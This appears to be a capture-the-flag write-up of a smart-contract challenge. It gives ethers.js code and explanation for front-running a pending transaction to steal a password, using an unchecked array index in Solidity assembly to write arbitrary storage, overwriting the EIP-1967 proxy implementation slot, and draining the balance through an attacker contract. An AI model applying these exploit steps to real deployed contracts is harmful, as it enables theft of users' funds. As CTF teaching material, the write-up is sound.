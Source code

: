 # Private Log Writeup 

Solve script is `solve.js`

In this challenge we are required to steal all the funds from a contract which seemingly doesn't not have any functionality to send or even receive funds. 

In the challenge description we are given two critical pieces of information. 

1. The challenge contract is deployed as a TransparentUpgradeableProxy which points to the Logic contract
2. A new log entry is added every minute by the contract owner.

Both of the main functions `createLogEntry` and `updateLogEntry` are protected by a `hasSecret` modifier which requires you to know the password that was hashed in the previous transaction, aswell as provide a new one. Since a new log is creted every minute, the password changes every minute.

To solve this challenge there are 3 main steps. 

1. Front run the user transaction to steal the password and take control of the `secretHash` variable.
2. Abuse a bug in the `updateLogEntry` function to write *almost* anything to an arbritrary storage address
3. Overwrite the proxy implementation address to an attacker owned address which then sends the funds.

Let's dive in.

## Front Running 

If you set up a listener for new transactions you will notice that every minute a new tx comes through creating a new log entry

```js
provider.on("pending", async (tx) => {
        console.log(tx)
    })
```

In the challenge description we see that the block time is set to 23 seconds. This gives us lots of time to read the pending transaction's details and then send another transaction with a higher gas price such that our's will get processed first in the block. We then can set the newHash to anything we like so that we now can create and update logs as we wish!

```js
    // Connect To Contract
    const pathToContract = path.resolve(path.join(__dirname, './PrivateLog.json'));
    const abiData = JSON.parse(fs.readFileSync(pathToContract).toString()).abi;
    const tokenContract = new ethers.Contract(contractAddr, abiData, wallet);

    // Parse transaction data 
    const iface = new ethers.utils.Interface(abiData);
    const oldSecret = iface.parseTransaction(frontruntx).args.password;
    console.log("Secret is:", oldSecret)

    // Front Run with our new secret
    const secret = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";

    // Hashed password.
    const pwhash = ethers.utils.keccak256(ethers.utils.toUtf8Bytes(secret));

    console.log("Sending front run transaction with new hash");
    await (await tokenContract.createLogEntry("My log now", oldSecret, pwhash, {
        gasPrice: "1000000105",
        gasLimit: "100000"
    })).wait();
```

## Arbritrary Storage Write

Now looking at the `updateLogEntry` function we can see that is updating the logs through assembly, let's walk through what each line does.

```
// Loads the length of the string into the length var 
let length := mload(logEntry)

// Stores the storage address of logEntries in the 0x00 scratch space.
mstore(0x00, logEntries.slot)
```

sstore(addr, val) stores a new value 'val' in storage at mem address 'addr'
The address is calculated by hashing 32 bytes starting from the address 
stored at mem[0x00] (which is what we set in the line above). Then adding
the logIndex to get our offset. This is the address we will store our value at.

The value is grabbed by, adding 0x20 to the logEntry address to get the address
of the start of the string (the first 32bytes store the length of the string).
The value of that address is loaded using mload and OR'd with the length of the string mul(tiplied) 
by 2. This is all following the [documentation spec](https://docs.soliditylang.org/en/v0.8.11/internals/layout_in_storage.html#mappings-and-dynamic-arrays). 

```
sstore(add(keccak256(0x00, 0x20), logIndex), or(mload(add(logEntry, 0x20)), mul(length, 2)))
```

Now since we control the `logIndex` parameter we can fully control the address that is being written to in sstore() meaning we can essentially write to any storage slot. The bug here is that there is no check that the logIndex is less than the the length of the array.

Now we can write to any slot we will want to with *almost* full control of what is written there.

Note that integer overflows work in assembly so we are able to wrap around the whole storage address space.

## Overwriting Proxy Implementation

This writeup won't go into super detail of what a Proxy contract is. But here is the high level overview of what you need to know for this challenge. 

A proxy contract delegates all logic to an external contract, whilst maintaining all state in the proxy contract. So when you call the proxy contract with `createLogEntry` it will execute the logic of the PrivateLog.sol contract but in the context of the Proxy contract.

Now a proxy contract has the address of the *implementation* contract which it delegates all it's calls to stored at a specific memory address defined in [EIP-1967](https://eips.ethereum.org/EIPS/eip-1967). This specific address is `0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc`.

So if we are able to write to that storage address with the address of a contract that we control. We can change the logic of the functions to send the funds of the contract to our address!

So to calculate the `logIndex` parameter we need to provide we need to do some math since the start of the logEntries data is located at a slot higher than the EIP hash, we need to do an integer overflow. So

logEntries is slot number 2, (slot 0 is Initializable vars, slot 1 is secretHash), so

address = MAX_UINT256 - keccak256(2) + EIP_HASH 

```js
const maxint = "0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF";
const address = ethers.BigNumber.from(ethers.utils.keccak256(ethers.utils.hexZeroPad(2, 32)))
const logIndex = ethers.BigNumber.from(maxint).sub(address).add(eiphash).add(1).toHexString().slice(2);

console.log("Calculates log index is", logIndex);
```

Ok so now we have the logIndex we need to provide, we can just update the logEntry with our contract address and be done right? right?

But there is a catch, we can't just write any values to the storage because we are storing them as strings. Strings in solidity are stored left aligned so if we stored the string "hello" it would be stored as: 

`0x68656c6c6f00000000000000000000000000000000000000000000000000000a`

(note the last byte is 0x0a, to store the length of the string * 2)

Whereas we would want to store a contract address as
`0x0000000000000000000000006189762f79de311B49a7100e373bAA97dc3F4bd0`

So we need to send a string which is 31 bytes long, prepended with null bytes with our contract address afterwards. buttttttt, the length of the string is also going to be stored as the 32nd byte. So if we have a string of length 31 it will store (31 * 2 = 62 = 0x3e) as the last byte.

So our attacking contract will need to have it's last byte also be 0x3e (Which is a 1/256 chance). Contract addresses are determinable given the deployer and nonce of the transaction. Ethers.js has a handy function for this:

```js
const nextContractAddr = ethers.utils.getContractAddress({
            from: wallet.address,
            nonce: nonce
        });
```

Once we have our contract address ending in 0x3e, we can then send our exploit tx! 
Our logEntry is a string of length 31 bytes with the first 12 bytes being null 0x00, the next 19 is our contract address without the last byte, followed by another 0x00.

We then construct our payload and then send it through :).


```js
const payload = ethers.utils.hexZeroPad(0, 12).slice(2) + attackContract.address.slice(2).slice(0, -2) + "00";

    // ABI Encoded data because libraries won't let us encode non UTF-8 bytes as strings.
    // Calling  updateLogEntry(uint256, string, string, bytes32)

    // FORMAT:
    /**
     * Header
     * bytes[0 - 3]: 0xdd1b54d3 -> function signature
     * 
     * Data
     * 0x00 = uint256 calculated address from above to hit EIP storage slot
     * 0x20 = Where to start reading for the "logEntry" string. In this case byte 0x80
     * 0x40 = Where to start reading for the  "password" string. In this case byte 0xc0
     * 0x60 = bytes32 newHash value
     * 0x80 = length of string to read for (logEntry) which is 0x1f as it is 31 bytes
     * 0xA0 = actual string value for logEntry
     * 0xC0 = length of string to read for (password) which is 0x1e as it is 30 bytes
     * 0xE0 = actual string value for password
     */

    const toSend = "0x{{function_selector}}{{address}}{{logEntry_start}}{{password_start}}{{pwhash}}{{payload_length}}{{payload}}{{secret_length}}{{secret}}";

    const formatted = toSend
        .replace("{{function_selector}}", "dd1b54d3")
        .replace("{{address}}", logIndex)
        .replace("{{logEntry_start}}", ethers.utils.hexZeroPad("0x80", 32).slice(2))
        .replace("{{password_start}}", ethers.utils.hexZeroPad("0xc0", 32).slice(2))
        .replace("{{pwhash}}", pwhash.slice(2))
        .replace("{{payload_length}}", ethers.utils.hexZeroPad("0x1f", 32).slice(2))
        .replace("{{payload}}", payload)
        .replace("{{secret_length}}", ethers.utils.hexZeroPad("0x1e", 32).slice(2))
        .replace("{{secret}}", secretHex.slice(2) + "0000")
        .toLowerCase();
    
    console.log("Sending exploit tx");
    const tx = {
        to: contractAddr,
        data: formatted,
    };
```

Now that we have overwritten the implementation address we can call any of the function of our contract that we created and it will be executed in the context of the proxy. 

In the writeup we use `AttackPrivateLog.sol` as the contract and call the init() function. 

```
contract AttackPrivateLog {

    function init(bytes32 _secretHash) payable public  {
        uint256 bal = address(this).balance;
        payable(msg.sender).transfer(bal);
    }

}
```

This sends the balance of the contract to the sender and boom challenge done!